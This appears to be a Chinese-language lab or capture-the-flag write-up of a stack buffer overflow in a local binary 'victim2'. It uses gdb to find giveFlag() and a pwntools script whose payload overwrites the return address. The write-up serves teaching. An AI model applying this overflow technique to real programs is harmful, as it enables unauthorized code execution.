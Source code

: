  
#### 过程

hear()里的read有LENGTH*2-LENGTH长度的溢出空间，其栈内存布局为：

![1720265950346](SoftwareSecurity1/1720265950346.png =500x)

为了拿到flag文件的内容，我们的目标是去执行giveFlag()，所以用giveFlag()的地址去覆盖hear()的return address即可。

通过gdb去拿到giveFlag()的地址：

> gdb是 Linux 平台下最常用的一款程序调试器。可以用来进行启动程序、设置断点、单步调试、查看变量、反汇编等操作。

![1720265968586](SoftwareSecurity1/1720265968586.png)

可以看到giveFlag函数在内存的起始地址是0x080486a6。

buffer的长度256+ebp的4字节+new return address构造payload，因为对buf有长度检查，所以前面要插入一个'\0'。这样去构造即可。
 
#### 攻击脚本
```python
from pwn import *

io = process('./victim2')

#p32的作用是将一个数字转换为字符，0x080486a6会被转换为'\xa6\x86\x04\x08'，倒序是因为linux程序是小端规则的
payload = 'A' + '\0' + 258*'A' + p32(0x080486a6) 
io.sendline(payload)

io.interactive()
```
